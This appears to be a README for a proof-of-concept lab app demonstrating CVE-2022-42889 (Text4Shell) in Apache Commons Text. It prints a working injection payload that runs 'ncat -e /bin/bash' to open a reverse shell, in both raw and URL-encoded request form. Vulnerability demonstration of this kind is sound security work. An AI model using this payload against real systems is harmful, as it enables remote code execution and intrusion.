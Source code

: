 # CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ncat%20-e%20/bin/bash%200.0.0.0%204444%27)%7D`

The app was built in Eclipse, you can follow the tutorial on [my website](https://tonyharris.io/posts/text4shell/) if you want to build, run and test it yourself locally.

# Demo

https://user-images.githubusercontent.com/58807068/198384946-3a8736d9-64c6-4fb9-a2a0-47bf8627ffda.mp4
